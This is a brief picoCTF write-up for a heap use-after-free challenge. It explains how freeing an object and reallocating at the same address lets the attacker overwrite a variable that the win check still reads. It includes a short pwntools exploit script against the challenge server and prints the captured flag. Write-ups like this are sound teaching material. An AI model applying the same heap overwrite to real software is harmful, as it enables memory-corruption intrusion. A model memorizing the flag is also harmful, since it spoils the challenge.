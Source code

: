```yaml
---
ai_date: '2025-04-27 05:29:37'
ai_summary: 'Memory Leak Exploitation: Overwriting ''x'' after freeing it'
ai_tags:
- malloc
- leak
- untracked
- overwriting
created: 2024-08-08T00:05
updated: 2024-08-08T00:19
---
```


> freed but still in use
> now memory untracked
> do you smell the bug?

`malloc` will return the same address if the previous address was freed.

But `check_win` still uses the same address of `x` to check for win.

We can simply overwrite the data at `x` by liberating it and allocating a new object over there.

```python
from pwn import *
s = remote("tethys.picoctf.net", 60691)
s.sendlineafter(b": ", b"5")
s.sendlineafter(b": ", b"2")
s.sendlineafter(b": ", b"35")
s.sendlineafter(b": ", b"a"*30+b'pico')
s.sendlineafter(b": ", b"4")
info(s.recvall())
```

```flag
picoCTF{now_thats_free_real_estate_79173b73}
```

> Fun fact, size 40 also works.